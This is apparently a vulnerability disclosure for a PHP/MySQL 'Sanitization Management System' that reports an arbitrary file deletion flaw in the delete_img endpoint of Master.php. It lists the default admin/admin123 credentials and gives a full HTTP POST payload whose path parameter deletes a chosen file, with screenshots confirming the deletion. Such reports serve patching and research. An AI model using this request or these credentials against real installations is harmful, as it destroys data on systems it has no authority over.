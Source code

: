 # Sanitization Management System v1.0 by oretnom23 has Delete any file

BUG_Author: Hujozay

vendors: https://www.sourcecodester.com/php/15770/sanitization-management-system-project-php-and-mysql-free-source-code.html

Vulnerability File: /php-sms/classes/Master.php?f=delete_img

Vulnerability location: /php-sms/classes/Master.php?f=delete_img, path

The password for the backend login account is: admin/admin123

Payload:

Here we delete the shel.php file in the root directory

```sql
POST /php-sms/classes/Master.php?f=delete_img HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/php-sms/admin/?page=system_info
Content-Length: 71
Cookie: PHPSESSID=3puonr8mf2gr4m6iivf71mhjtq
Connection: close

path=C%3A%2Fxampp%2Fhtdocs%2Fphp-sms%2Fuploads%2Fbanner%2Fshell.php
```

At present, the shell.php file is still in the  directory of the website, when we send a request to delete the shell.php file

![image](https://user-images.githubusercontent.com/54017627/195979959-5acffb58-39e5-4168-819c-9071cae37441.png)

The response package shows that the deletion was successful. Let's go to the directory to see if the shell.php file still exists.
![image](https://user-images.githubusercontent.com/54017627/195979975-7af185cd-9cb9-4b65-843e-69c7ebaa1bfc.png)

By this time, shell.php has been deleted.
![image](https://user-images.githubusercontent.com/54017627/195979989-1d10bb96-44ab-45e9-8244-95ac81b987da.png)

